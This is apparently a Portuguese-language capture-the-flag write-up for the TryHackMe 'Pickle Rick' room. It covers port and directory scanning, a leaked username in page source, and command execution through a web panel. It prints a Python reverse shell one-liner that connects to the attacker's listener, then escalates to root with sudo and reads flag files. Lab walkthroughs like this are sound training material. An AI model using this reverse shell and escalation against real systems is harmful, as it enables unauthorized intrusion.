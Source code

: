 # Pickle Rick

## config VPN

- [https://tryhackme.com/access](https://tryhackme.com/access)

![Untitled](Untitled.png)

```bash
	sudo openvpn file.ovpn
```

![Untitled](Untitled%201.png)

![Untitled](Untitled%202.png)

## What is the first ingredient that Rick needs?

- nmap no ip
    
    ```bash
    sudo nmap -sV -O 10.10.37.36
    ```
    
- Tem um servidor http aberto
- Vamos ver
    
    ![Untitled](Untitled%203.png)
    
- No codigo fonte temos
    
    ![Untitled](Untitled%204.png)
    
    ```html
    <!--
    Note to self, remember username!
    
        Username: R1ckRul3s
    -->
    ```
    
- Ja temos o Username de alguma coisa
- Vamos ver se existe mais diretorios
    
    ```bash
    gobuster -u http://10.10.228.131/ -w /wordlist/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
    ```
    
    ![Untitled](Untitled%205.png)
    
- Vamos ver esses diretorios
    - robots.txt
        
        ![Untitled](Untitled%206.png)
        
    - assets
        
        ![Untitled](Untitled%207.png)
        
    - login.php
        
        ![Untitled](Untitled%208.png)
        
- Bom vamos testar o usuario e o valor mostrado por robots.txt
    
    ![Untitled](Untitled%209.png)
    
- Vamos testar qualquer comando
    
    ```bash
    ls
    ```
    
    ![Untitled](Untitled%2010.png)
    
- Vamos ver o que tem nesse .txt
    
    ![Untitled](Untitled%2011.png)
    
- Temos nosso primeiro ingrediente

## What is the second ingredient in Rick’s potion?

- Testando alguns comandos como
    
    ```bash
    cd ..
    ls /home
    ls /home/rick
    cat /home/rick/secon*
    ```
    
- Vemos que nao eh possivel acessar
- Vamos testar algo entao
    
    ```bash
    grep -R .
    ```
    
    | -R | recursive |
    | --- | --- |
    | . | na pasta atual |
    
    ![Untitled](Untitled%2012.png)
    
- Abrindo o html
    
    ![Untitled](Untitled%2013.png)
    
- Ou seja ele ta tratando alguns valores
- Entao vamos testar mais coisas no `Command Panel`
    
    ```bash
    python -c "print('hello')"
    python3 -c "print('hello')"
    ```
    
    ![Untitled](Untitled%2014.png)
    
- Entao podemos rodar python3 nessa aplicacao
- Vamos fazer um reverse shell
    - [https://github.com/cwinfosec/pentestmonkey/blob/master/Reverse_Shell_Cheat_Sheet.md](https://github.com/cwinfosec/pentestmonkey/blob/master/Reverse_Shell_Cheat_Sheet.md)
- Antes vamos abrir nossa porta com o `nc`
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250
    ```
    
- Agora na aplicacao
    
    ```bash
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.154.250",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
    
- Entao temos uma conexao
- Vamos ver quem somos e verificar o arquivo que nao conseguimos ver anteriormente
    
    ![Untitled](Untitled%2015.png)
    
    ```bash
    cd /home/rick
    ls
    cat sec*
    ```
    
- Temos nosso segundo ingrediente

## What is the last and final ingredient?

- Agora vamos ver na pasta root
    
    ```bash
    ls /root
    ```
    
- Nao temos permissao
- Entao vamos elevar nosso privilegio
    
    [https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4](https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4)
    
    ```bash
    sudo -l
    sudo su
    whoami
    ```
    
- Agora que somos root vamos ver o que tem na pasta root
    
    ```bash
    ls /root
    ```
    
    ![Untitled](Untitled%2016.png)
    
- Vamos ver esse txt
    
    ```bash
    cat /root/3rd.txt
    ```
    
    ![Untitled](Untitled%2017.png)
    
- Nosso terceiro ingrediente